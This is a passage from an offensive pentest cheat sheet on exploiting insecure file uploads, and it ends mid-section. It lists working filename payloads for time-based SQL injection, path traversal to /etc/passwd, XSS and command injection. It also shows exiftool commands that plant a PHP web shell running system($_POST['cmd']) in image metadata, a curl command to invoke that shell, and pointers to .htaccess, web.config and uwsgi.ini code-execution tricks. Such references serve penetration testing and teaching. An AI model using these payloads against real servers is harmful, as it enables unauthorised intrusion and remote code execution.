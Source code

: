 ### Filename vulnerabilities

Sometimes the vulnerability is not the upload but how the file is handled after. You might want to upload files with payloads in the filename.

- Time-Based SQLi Payloads: e.g. `poc.js'(select*from(select(sleep(20)))a)+'.extension`
- LFI/Path Traversal Payloads:  e.g. `image.png../../../../../../../etc/passwd` 
- XSS Payloads e.g. `'"><img src=x onerror=alert(document.domain)>.extension`
- File Traversal e.g. `../../../tmp/lol.png`
- Command Injection e.g. `; sleep 10;`

Also you upload:

- HTML/SVG files to trigger an XSS
- EICAR file to check the presence of an antivirus

### Picture Compression

Create valid pictures hosting PHP code. Upload the picture and use a **Local File Inclusion** to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.
    - [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): use createBulletproofJPG.py
    - [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createPNGwithPLTE.php
    - [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): use createGIFwithGlobalColorTable.php


### Picture Metadata

Create a custom picture and insert exif tag with `exiftool`. A list of multiple exif tags can be found at [exiv2.org](https://exiv2.org/tags.html)

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### Configuration Files

If you are trying to upload files to a :

- PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
- ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.
- uWSGI server, take a look at the [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) trick to execute code.

Configuration files examples
